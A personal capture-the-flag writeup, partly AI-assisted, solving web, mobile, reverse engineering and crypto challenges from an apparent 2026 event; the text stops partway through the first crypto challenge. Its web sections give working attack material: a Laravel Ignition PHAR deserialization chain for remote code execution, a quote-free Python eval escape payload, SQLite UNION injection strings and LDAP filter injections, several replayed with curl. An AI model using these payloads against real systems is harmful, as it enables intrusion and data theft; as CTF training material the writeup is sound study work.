---

title: "Bahtera CTF 2026 Writeup"

date: 2026-08-31

permalink: /ctf/3108CTF-2026/

categories: [ Writeup]

tags: [ctf]

description: "Writeup for bahtera 2026"

pond: true

ctf_event: "3108CTF 2026"

---

# 3108 CTF: Warisan Takhta Writeup by 171k

I made this writeup 12 hours after the CTF ended so I am sorry if there are mistake and such. Enjoy the writeup! 

Disclaimer: This writeup is AI-assisted (Yes, i asked ChatGPT to help me do it because I am quite tired)

---

## Table of Contents

- [Web Exploitation](#web-exploitation)
  
  - [Kesultanan Pahang](#1-kesultanan-pahang)
  - [Titah Laju 2](#2-titah-laju-2)
  - [Direktori Sultan Selangor](#3-direktori-sultan-selangor)
  - [Titah Firman Diraja](#4-titah-firman-diraja)

- [Mobile Exploitation](#mobile-exploitation)
  
  - [Bahtera Pomodoro](#1-bahtera-pomodoro)

- [Reverse Engineering](#reverse-engineering)
  
  - [Adat Istiadat Raja](#1-adat-istiadat-raja)
  - [Istana Guard](#2-istana-guard)
  - [House of](#3-house-of)
  - [Kuning Berdaulat](#4-kuning-berdaulat)

- [Crypto](#crypto)
  
  - [Tertib Balairung](#1-tertib-balairung)
  - [Surat Pertabalan](#2-surat-pertabalan)
  - [Warkah Tergulung](#3-warkah-tergulung)
  - [Surat Pahlawan](#4-surat-pahlawan)

- [Misc](#misc)
  
  - [Cap Mohor Sembilan Mata](#1-cap-mohor-sembilan-mata)
  - [Persemadian Seorang Raja](#2-persemadian-seorang-raja)
  - [Titah Laju 1](#3-titah-laju-1)

- [Forensics](#forensics)
  
  - [Cap Mohor Yang Hilang](#1-cap-mohor-yang-hilang)
  - [Risalah Istana Anak Bukit](#2-risalah-istana-anak-bukit)
  - [Lagenda Sultan Kedah Tua](#3-lagenda-sultan-kedah-tua)
  - [Layar Yang Menanti](#4-layar-yang-menanti)

- [Boot2Root](#boot2root)
  
  - [Warisan Takhta](#1-warisan-takhta)
  - [Warta Kelate](#2-warta-kelate)

- [Pwn](#pwn)
  
  - [Warkah Diraja](#1-warkah-diraja)
  - [Cogan Alam](#2-cogan-alam)
  - [Majlis Raja Raja](#3-majlis-raja-raja)

- [OSINT](#osint)
  
  - [Taman Hati](#1-taman-hati)
  - [Sebuah Istana](#2-sebuah-istana)
  - [Kudrat Raja Berdaulat](#3-kudrat-raja-berdaulat)

---

# WEB EXPLOITATION

---

## 1. Kesultanan Pahang



### Challenge overview

I was given the source code for a Laravel portal. The description hinted that it had been deployed in a hurry, so I started by checking the framework configuration, development endpoints and dependency versions.

#### Source code review

While going through the project, I found Facade Ignition and its solution endpoint:

```text
/_ignition/execute-solution
```

The event instance accepted requests for `MakeViewVariableOptionalSolution`. This matched the Laravel Ignition log-to-PHAR deserialization chain used for CVE-2021-3129.

I confirmed that:

1. the Ignition endpoint was reachable remotely;
2. its solution handler could operate on an attacker-selected path;
3. the Laravel log was writable by the web process; and
4. a crafted serialized PHP gadget could therefore be placed in the log and later interpreted as a PHAR archive.

#### Exploitation path

I used `storage/logs/laravel.log` as the intermediate file.

1. Clear or normalize the log so previous entries do not disturb the payload alignment.
2. Write a PHP serialization gadget into the log through the vulnerable solution endpoint.
3. Apply PHP stream filters to transform the encoded log content into a valid PHAR payload.
4. Reference the transformed log using the `phar://` stream wrapper.
5. Trigger deserialization of the gadget chain and obtain command execution in the container.

The helper script reported the first attempt as a failure because it received HTTP 200, but the command had actually executed. I checked the response directly before continuing.

#### Locating the real flag

I first found this flag-looking value in the environment:

```text
FLAG=CTF{}
```

It was a decoy. I searched the filesystem, found `/flag.txt` and read the real flag from there.

#### Flag

```text
3108{m3rd3k4_s3l4lu_d1_h4t1}
```

---

## 2. Titah Laju 2



### Challenge overview

The second Titah Laju challenge was another typing-speed application, but the real weakness was on the server. The frontend calculated a WPM value and sent it to:

```text
/rate?wpm=<value>
```

Reviewing the supplied Flask source showed that the `/rate` handler passed this value through a blacklist and then evaluated it as Python:

```python
check(wpm)
eval(wpm.lower())
```

The application also ran with Flask debugging enabled. This meant an exception could disclose its details through the Werkzeug traceback page.

#### Understanding the restrictions

The blacklist blocked the obvious payload:

```python
open("flag.txt").read()
```

Among the rejected characters and words were quotes, `.`, `_`, `import`, `eval`, `exec`, `chr`, `str`, `read` and even the letters `a` and `m` through substring matching.

There was also a distinct-character restriction:

```python
len(set(wpm.lower())) <= 18
```

I needed a valid Python expression that used at most 18 unique characters and avoided every blocked substring.

Three useful built-ins were still available:

```text
open
next
bytes
```

That was enough to construct the filename, read its first line and leak it through an exception.

#### Constructing `flag.txt` without quotes

`open()` accepts a `bytes` object as its path, so I could build each character from its ASCII value:

```python
bytes([102])  # b"f"
```

Using the ASCII numbers directly introduced too many distinct digits. I rewrote them as arithmetic expressions using only `1`, `2` and `3`:

| Character | ASCII | Expression    |
| --------- | -----:| ------------- |
| `f`       | 102   | `33*3+3`      |
| `l`       | 108   | `33*3+3*3`    |
| `a`       | 97    | `32*3+1`      |
| `g`       | 103   | `33*3+2+2`    |
| `.`       | 46    | `23*2`        |
| `t`       | 116   | `33*3+11+3+3` |
| `x`       | 120   | `33*3+21`     |
| `t`       | 116   | `33*3+11+3+3` |

The complete filename expression was:

```python
bytes([33*3+3])+bytes([33*3+3*3])+bytes([32*3+1])+bytes([33*3+2+2])+bytes([23*2])+bytes([33*3+11+3+3])+bytes([33*3+21])+bytes([33*3+11+3+3])
```

#### Reading the flag without `.read()`

Python file objects are iterable. Instead of calling the blocked `.read()` method, I used `next()` to retrieve the first line:

```python
next(open(PATH))
```

The remaining problem was getting that line into the HTTP response. I passed it to a second `open()` call:

```python
open(next(open(PATH)))
```

If the first line contained `3108{...}`, Python attempted to open a file with that flag as its name. The file did not exist, so Flask raised a `FileNotFoundError`. Because the Werkzeug debugger was enabled, the failed filenameincluding the flagappeared in the returned traceback.

#### Final payload

Combining the pieces produced:

```text
open(next(open(bytes([33*3+3])+bytes([33*3+3*3])+bytes([32*3+1])+bytes([33*3+2+2])+bytes([23*2])+bytes([33*3+11+3+3])+bytes([33*3+21])+bytes([33*3+11+3+3]))))
```

I checked the payload against the supplied blacklist. It contained no blocked substring and used exactly 18 distinct characters, meeting the limit exactly.

I sent it directly to the vulnerable endpoint rather than using the typing interface:

```bash
curl -G 'https://TARGET/rate' \
  --data-urlencode 'wpm=open(next(open(bytes([33*3+3])+bytes([33*3+3*3])+bytes([32*3+1])+bytes([33*3+2+2])+bytes([23*2])+bytes([33*3+11+3+3])+bytes([33*3+21])+bytes([33*3+11+3+3]))))'
```

The response returned HTTP 500 with a Werkzeug traceback. Inside the `FileNotFoundError`, I found the real remote flag. The `3108{bukan_flag}` value supplied with the local files was only a decoy.

#### Flag

```text
3108{347f5791d2e33dc7504fe343dfa916b4}
```

---

## 3. Direktori Sultan Selangor



### Challenge overview

The challenge presented a public directory for the Selangor royal household. The page contained a search form for looking up names and positions. Since this was a Web Exploitation challenge, I inspected the request generated by the form instead of treating the page as a purely informational directory.

The target was:

```text
https://selangor.bahterasiber.my/
```

#### Finding the search request

I opened the directory and submitted an ordinary name, such as:

```text
muhammad
```

In the browser developer tools, I watched the Network tab while submitting the form. The request revealed the parameter used by the backend, for example:

```text
/search?name=muhammad
```

The exact parameter name was more important than the visible form itself because it gave me a direct way to repeat the request and change only the search value.

#### Testing for SQL injection

After a few minutes of checking the normal search behavior, I tested whether a quote changed the server response:

```text
muhammad'
```

I then tried boolean conditions:

```text
muhammad' OR '1'='1'--
muhammad' OR 1=1--
```

The result set changed, confirming that the search value was being concatenated into a SQL query without proper parameterization. The `--` marker commented out the rest of the original query, allowing the injected condition to control the result.

#### Identifying the database layout

I used `ORDER BY` probes to determine how many columns the original query returned:

```text
muhammad' ORDER BY 1--
muhammad' ORDER BY 2--
muhammad' ORDER BY 3--
```

Once the response behavior gave me the column count, I used a `UNION SELECT` to place database information into a field displayed by the directory. The application was backed by SQLite, so the first useful test was:

```text
muhammad' UNION SELECT sqlite_version()--
```

If the original query required additional columns, I padded the result with constants so that both sides of the `UNION` had the same shape:

```text
muhammad' UNION SELECT 1,sqlite_version(),3,4--
```

#### Enumerating tables and columns

SQLite stores its schema in `sqlite_master`. I used that table to identify the application tables:

```text
muhammad' UNION SELECT group_concat(name, ','),2,3,4
FROM sqlite_master
WHERE type='table'--
```

After finding the relevant table, I requested its schema:

```text
muhammad' UNION SELECT group_concat(sql, char(10)),2,3,4
FROM sqlite_master
WHERE type='table'--
```

This showed which column contained the stored secret. The directory was not filtering the injected value into a separate safe search parameter; the SQL expression was executed by the backend and its first selected column was rendered in the results page.

#### Extracting the secret

The final request selected the flag-bearing column from the discovered table. The general form was:

```text
muhammad' UNION SELECT flag,2,3,4 FROM flags--
```

If the schema used a different table name, I substituted the name revealed by `sqlite_master`. I sent the payload through the search request using URL encoding so spaces, quotes and the comment marker reached the server unchanged.

For example, from a shell I could replay the request as:

```bash
curl -G 'https://selangor.bahterasiber.my/search' \
  --data-urlencode "name=muhammad' UNION SELECT flag,2,3,4 FROM flags--"
```

The returned directory page displayed the extracted value in the normal search-results area. The vulnerability was therefore a classic UNION-based SQLite injection rather than a client-side-only issue.

#### Flag

```text
3108{jejak_sang_daulat_terungkai}
```

---

## 4. Titah Firman Diraja



### Challenge overview

The page presented a list of Selangor rulers and asked me to uncover a secret hidden by the current Sultan. The challenge specified the flag format as:

```text
3108{...}
```

The page looked like a normal directory, but the name search was processed by a backend directory service. I focused on the request parameter rather than the HTML layout.

#### Inspecting the name search

I opened the Sultan list, searched for an ordinary name and watched the request in the browser Network panel. The search value was sent through a parameter named `name` on:

```text
https://diraja.bahterasiber.my/
```

I replayed the normal request first to establish the expected response, then tested an unmatched value and a wildcard. The wildcard behavior showed that the backend was not using a SQL query; the results were consistent with an LDAP directory search.

#### Confirming LDAP injection

After a few minutes of testing the filter syntax, I tried closing the user-controlled value and adding an LDAP wildcard condition:

```text
*) (objectClass=*)
```

Without the space, the value I sent was:

```text
*)(objectClass=*)
```

The filter altered the result set, confirming LDAP injection in the `name` parameter. The application was effectively incorporating the value into an LDAP filter without escaping special characters such as `*`, `(` and `)`.

I could replay the test from a shell with URL encoding:

```bash
curl -G 'https://diraja.bahterasiber.my/' \
  --data-urlencode 'name=*)(objectClass=*)'
```

#### Finding the hidden attribute

The normal page displayed public Sultan information, but the injected response included an additional directory attribute named:

```text
rahsia
```

This matched the wording of the challenge: the secret was not a separate page or a filename, but an attribute stored with the Sultan directory entry. I tested the filter with broader object matching and inspected the raw response rather than relying only on the formatted page:

```bash
curl -sG 'https://diraja.bahterasiber.my/' \
  --data-urlencode 'name=*)(|(name=*))' \
  | tee response.html

rg -n -i 'rahsia|3108\{' response.html
```

The `rahsia` value contained the flag directly. I did not need to enumerate unrelated accounts or dump the whole directory; the hidden attribute was enough to answer the challenge.

#### Flag

```text
3108{daulattuanku2001}
```

---

---

# MOBILE EXPLOITATION

---

## 1. Bahtera Pomodoro



### Challenge overview

I received an Android Pomodoro application. The description suggested that repeated interaction would reveal something, but since I had the APK, I went straight to static analysis.

#### Initial inspection

I unpacked and decompiled the APK with:

```bash
file bahtera.apk
unzip -l bahtera.apk
aapt dump badging bahtera.apk
jadx --deobf -d bahtera-jadx bahtera.apk
```

In JADX, I found `PomodoroViewModel`, which handled both the timer and the hidden interaction counter. The intended UI route was to press **Touchme** 20 times within 60 seconds.

#### Recovering the flag statically

The same class contained two Base64 fragments:

```text
MzEwOHt5MHVfZjB1
bmRfbTNfZ3I0dHp6fQ==
```

I joined the fragments and decoded them as one Base64 value:

```python
import base64

parts = [
    "MzEwOHt5MHVfZjB1",
    "bmRfbTNfZ3I0dHp6fQ==",
]

flag = base64.b64decode("".join(parts)).decode()
print(flag)
```

Output:

```text
3108{y0u_f0und_m3_gr4tzz}
```

I also found an exported broadcast receiver that revealed the `3108{...}` format, but the actual flag came from the two strings in `PomodoroViewModel`.

#### Flag

```text
3108{y0u_f0und_m3_gr4tzz}
```

---

---

# REVERSE ENGINEERING

---

## 1. Adat Istiadat Raja



### Challenge overview

I received a stripped, PIE-enabled x86-64 Linux executable. The description emphasized order and position, which matched the validation logic I later found in the binary.

```text
ELF 64-bit LSB pie executable, x86-64, dynamically linked, stripped
```

The flag was not stored as a printable string. The program first validated a sequence, then used the resulting state to decrypt a blob.

#### Reversing the validator

I traced a 16-byte input check. At each position, the program combined the current byte with the previous state and compared the result with a 32-bit constant.

Because the chain was deterministic, I could invert each check once I knew the previous state. This gave me the only accepted sequence:

```text
9 3 7 1 12 5 15 0 8 2 14 6 11 4 13 10
```

I could not simply patch the success branch because the accepted bytes also built the 64-bit seed used for decryption.

#### Decrypting the data blob

After the check, I found a SplitMix64-style generator producing a keystream. The program XORed that stream with a 37-byte blob in `.rodata`.

My solve followed the original program flow:

1. invert the chained checks;
2. supply the exact accepted sequence;
3. allow the binary to construct the correct 64-bit seed; and
4. let the original decryption routine process the `.rodata` blob.

I supplied the recovered sequence to the unmodified binary and it printed the flag.

#### Flag

```text
3108{4d4t_1st14d4t_d1junjung_t1ngg1}
```

---

## 2. Istana Guard



### Challenge overview

I identified the file as a small 64-bit .NET assembly:

```text
PE32+ executable for MS Windows, x86-64 Mono/.NET assembly
```

The assembly was not obfuscated, so its metadata, method names and IL were still readable.

#### Static analysis

While reviewing the metadata, I found a method named:

```text
MaterialiseFlag
```

The method referenced several flag fragments. I followed the IL instead of trusting the order returned by `strings`.

Conceptually, the method performed the following operation:

```csharp
var result = new StringBuilder();
result.Append(fragment1);
result.Append(fragment2);
// ...seven more fragments...
return result.ToString();
```

There were nine user-string tokens. Following each `ldstr` and `StringBuilder.Append` instruction gave me the correct order and the complete flag.

#### Flag

```text
3108{n3g3r1_s3mb1l4n_d4rul_khusus_d3bugg3r_c4nt_h1d3_m3}
```

---

## 3. House of



### Challenge overview

I was given a stripped native 64-bit Windows PE. The portal clue said that everything began with the first step.

#### Investigation

At first I assumed the password check unlocked or decrypted the flag. Static analysis showed that it did neither.

I used:

```bash
file house-of.exe
strings -a -n 4 house-of.exe
objdump -h house-of.exe
objdump -s -j .rdata house-of.exe
objdump -d -Mintel house-of.exe
```

The password logic only controlled the `Access Granted` message. It was not used as a key and had no effect on the flag.

I found the full flag as a literal in the PE's read-only data section. The password prompt was just misdirection.

#### Flag

```text
3108{HOUSE_OF_JAMALULLAIL}
```

---

## 4. Kuning Berdaulat



### Challenge overview

I received a 64-bit Linux executable named `panji`. Running it presented a 12-question quiz about the royal institutions, states, symbols and history of Malaysia.

The questions could have been researched manually, but the challenge was in the Reverse Engineering category. I inspected the binary to recover the exact accepted answers and their required wording.

#### Initial inspection

I started by identifying the file, checking its protections and listing its symbols and strings:

```bash
file panji
checksec --file=panji
strings -a -n 4 panji | less
nm -n panji | grep -E \
  ' main$|susun_warna$|papar_makna$|kemas$|panji_data|soalan|seg_sz'
```

The executable was not stripped, so symbols such as `main`, `panji_data` and `seg_sz` made the important data flow easier to follow.

Disassembling `main` showed a loop that processed 12 encrypted records. Each submitted answer was normalized and compared with a decrypted value. Only after every comparison succeeded did the program attempt to open `flag.txt`.

#### Recovering the AES key

The binary did not store the AES key as a normal string. I found this 16-byte array:

```text
c4 e9 f2 e7 e1 e8 e1 f9 f5 a0 d4 f5 e1 ee eb f5
```

The key-setup routine XORed every byte with `0x80`. Repeating that operation recovered:

```python
encoded = bytes.fromhex("c4e9f2e7e1e8e1f9f5a0d4f5e1eeebf5")
key = bytes(value ^ 0x80 for value in encoded)

print(key)
print(key.hex())
```

Output:

```text
b'Dirgahayu Tuanku'
446972676168617975205475616e6b75
```

This was a valid 16-byte AES-128 key.

#### Extracting the encrypted records

The ciphertexts were stored in `panji_data` at file offset `0x4080`. Each record occupied a `0xb0`-byte slot, while `seg_sz` supplied the actual encrypted length for that record:

```python
segment_sizes = [
    0xb0, 0x80, 0xb0, 0x90,
    0xa0, 0xa0, 0xb0, 0x90,
    0x90, 0x80, 0x70, 0x70,
]
```

Tracing the decryption routine showed that the records used AES-128-ECB. I extracted each ciphertext and decrypted it with OpenSSL:

```bash
python3 - <<'PY'
from pathlib import Path

binary = Path("panji").read_bytes()
base = 0x4080
stride = 0xb0
sizes = [
    0xb0, 0x80, 0xb0, 0x90,
    0xa0, 0xa0, 0xb0, 0x90,
    0x90, 0x80, 0x70, 0x70,
]

for index, size in enumerate(sizes):
    start = base + index * stride
    Path(f"segment-{index}.bin").write_bytes(
        binary[start:start + size]
    )
PY

for index in $(seq 0 11); do
  openssl enc -aes-128-ecb -d \
    -K 446972676168617975205475616e6b75 \
    -nopad \
    -in "segment-$index.bin" 2>/dev/null | \
    perl -0777 -pe 's/[\x01-\x10]+$//'
  echo
done
```

The decrypted records revealed the exact accepted responses.

#### Recovered answer sequence

The 12 answers had to be submitted in this order:

```text
raja-raja melayu yang berdaulat
perpaduan sesama kita
kerajaan persekutuan
negeri-negeri melayu tidak bersekutu
pahang darul makmur
negeri sembilan: beradat, muafakat, berkat
harimau malaya
negeri-negeri selat
pada tahun 1960
tahun 1963
kanan
tahun 1952
```

I verified the sequence against the local binary:

```bash
printf '%s\n' \
  'raja-raja melayu yang berdaulat' \
  'perpaduan sesama kita' \
  'kerajaan persekutuan' \
  'negeri-negeri melayu tidak bersekutu' \
  'pahang darul makmur' \
  'negeri sembilan: beradat, muafakat, berkat' \
  'harimau malaya' \
  'negeri-negeri selat' \
  'pada tahun 1960' \
  'tahun 1963' \
  'kanan' \
  'tahun 1952' | ./panji
```

All 12 checks passed. The local copy then reported that `flag.txt` was unavailable, which confirmed that the downloadable binary did not contain the real flag.

#### Retrieving the remote flag

I checked the binary for a hidden or appended flag before relying on the remote service:

```bash
grep -aob '3108{' panji
strings -a panji | grep -Ei '3108|flag\{'
readelf -S panji
stat -c '%s bytes' panji
```

There was no flag-shaped string or appended ELF overlay. The success branch was equivalent to:

```c
FILE *file = fopen("flag.txt", "r");
fgets(flag, 128, file);
printf("Flag: %s", flag);
```

I therefore sent the recovered answers to the live service in one request stream:

```bash
printf '%s\n' \
  'raja-raja melayu yang berdaulat' \
  'perpaduan sesama kita' \
  'kerajaan persekutuan' \
  'negeri-negeri melayu tidak bersekutu' \
  'pahang darul makmur' \
  'negeri sembilan: beradat, muafakat, berkat' \
  'harimau malaya' \
  'negeri-negeri selat' \
  'pada tahun 1960' \
  'tahun 1963' \
  'kanan' \
  'tahun 1952' | nc 168.144.106.166 30006
```

After the final accepted answer, the remote instance read its `flag.txt` and returned the flag.

#### Flag

```text
3108{D4ul4t_Tu4nku_Dirg4h4yu_N3g4r4kU!}
```

---

---

# CRYPTO

---

## 1. Tertib Balairung



### Challenge overview

The description gave me two useful clues: nine royal officials had to be arranged by the initial letters of their titles and the reading direction changed depending on who faced the ruler. The ciphertext was:

```text
3T3415041}IHKUX84UBN1_NLR{BK_G0TT4U1NNCXR__NX
```

I counted 45 characters, so I split it into nine blocks of five:

```text
3T341  5041}  IHKUX  84UBN  1_NLR
{BK_G  0TT4U  1NNCX  R__NX
```

#### Deriving the arrangement

I treated the nine blocks as columns and used the historical clue to order them. With zero-based indices, the permutation was:

```text
0, 4, 6, 3, 5, 1, 7, 8, 2
```

In one-based form, this is:

```text
